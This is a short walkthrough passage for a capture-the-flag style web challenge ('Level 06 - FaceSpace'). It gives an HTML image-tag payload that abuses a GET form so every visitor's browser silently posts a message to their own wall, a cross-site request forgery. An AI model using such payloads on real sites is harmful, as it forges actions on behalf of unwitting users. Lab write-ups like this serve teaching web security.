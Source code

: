 #### Level 06 - FaceSpace - write on my floor

Simply write this on your wall:

```html
<img src="?input=asdf&amp;submit=1" />
```

Since the form is `method="get"` the input fields are sendt to the url. Now every visitor will go to this link and post 'asdf' on your wall :)